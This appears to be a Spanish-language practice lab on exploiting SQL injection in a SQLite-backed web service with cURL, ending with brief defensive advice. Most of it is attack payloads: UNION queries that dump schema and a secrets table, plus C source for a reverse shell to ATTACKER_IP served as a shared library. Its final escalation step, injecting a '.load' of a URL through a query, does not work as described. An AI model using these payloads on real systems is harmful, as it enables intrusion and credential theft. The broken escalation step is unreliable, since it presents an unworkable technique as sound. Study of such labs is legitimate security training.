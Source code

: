 
---
# Laboratorio práctico: Explotación de SQLite3 a través de cURL

## Objetivo

Simular un entorno vulnerable donde:

- Existe un servicio web que usa SQLite3 sin sanitización de entradas.
- Podemos interactuar con él usando `cURL`.
- Descubrimos información sensible mediante inyección SQL (específica para SQLite).
- Se plantea una escalada en caso de que esté permitida la extensión `load_extension()`.

---

## Paso 1: Verificar vulnerabilidad con cURL

Comprobamos comportamiento normal:

```bash
curl "http://localhost:8080/search?query=a"
````

Probamos con una comilla para romper la consulta:

```bash
curl "http://localhost:8080/search?query='"
```

Si devuelve un error SQL, es vulnerable a inyección.

---

## Paso 2: Enumerar tablas

SQLite almacena su esquema en la tabla `sqlite_master`. Para enumerar tablas:

```bash
curl "http://localhost:8080/search?query=' UNION SELECT name FROM sqlite_master WHERE type='table'--"
```

Resultado típico:

```
users
secrets
```

---

## Paso 3: Obtener estructura de tabla

Para ver cómo está definida la tabla `secrets`:

```bash
curl "http://localhost:8080/search?query=' UNION SELECT sql FROM sqlite_master WHERE tbl_name='secrets'--"
```

Resultado:

```
CREATE TABLE secrets (id INTEGER PRIMARY KEY, secret TEXT, created_at DATETIME);
```

---

## Paso 4: Leer datos de una tabla

Para extraer secretos:

```bash
curl "http://localhost:8080/search?query=' UNION SELECT secret FROM secrets--"
```

Posibles resultados:

```
ssh_pass=SuperS3cret123
api_key=ABCDEF123456789
```

---

## Paso 5 (opcional): Ejecutar una reverse shell con load_extension

Si `load_extension()` está habilitado, podríamos ejecutar una carga maliciosa.

### Crear biblioteca compartida

```c
// shell.c
#include <stdlib.h>
void _init() {
  system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'");
}
```

Compilarla:

```bash
gcc -fPIC -shared -o shell.so shell.c
python3 -m http.server 80  # para servir la .so
```

### Intentar cargarla (si el servidor permite):

```bash
curl "http://localhost:8080/search?query='; .load http://ATTACKER_IP/shell.so --"
```

Y en el listener:

```bash
nc -lvnp 4444
```

---

## Recomendaciones de seguridad

- Nunca concatenar directamente entradas en consultas SQL.
    
- Usar sentencias preparadas (prepared statements).
    
- Deshabilitar `load_extension` en SQLite si no es estrictamente necesario.
    
- Revisar los permisos del fichero `.db` y sus extensiones.
    

---

## Referencias

- [https://sqlite.org](https://sqlite.org/)
    
- [https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
    
- [https://gtfobins.github.io/gtfobins/sqlite3/](https://gtfobins.github.io/gtfobins/sqlite3/)
    
- [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)
    

---
